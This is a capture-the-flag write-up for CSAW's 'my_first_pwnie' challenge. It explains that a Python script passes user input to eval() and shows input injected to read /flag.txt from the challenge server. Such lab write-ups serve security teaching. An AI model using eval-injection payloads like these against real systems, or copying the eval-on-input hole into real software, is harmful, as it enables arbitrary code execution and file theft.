 # my_first_pwnie

---
## Challenge
```
You must be this 👉 high to ride.

Note: flag is in /flag.txt

Author: ElykDeer

Connect with:
nc intro.csaw.io 31137 
```

[my_first_pwnie.py](../_resources/my_first_pwnie-1.py)

---
## Code Analysis
``` 
try:
  response = eval(input("What's the password? "))
  print(f"You entered `{response}`")
  if response == "password":
    print("Yay! Correct! Congrats!")
    quit()
except:
  pass

print("Nay, that's not it.")
```
This code shows the main part that we must exploit to be able to read ```/flag``` to complete the challenge. It looks like that our user input is passed to the ```eval``` function. This means that our input will be interpreted as a python expression and the output will be placed in the ```response``` variable. This means that we can execute arbitrary code then have the result written back to us by the print statement later on.

---

---
## Exploitation
Lets input some python expressions to the server and see what happens.
```
What's the password? 4+4
You entered `8`
Nay, that's not it.
```
Nice it looks like our input is being passed as python code and the output is printed back to us. Now lets try to read the ```/flag.txt``` file
```
What's the password? open('/flag.txt','r').readlines()
You entered `['csawctf{neigh______}\n']`
Nay, that's not it.
```
Nice we opened and read the file with our arbitrary python code execution !

---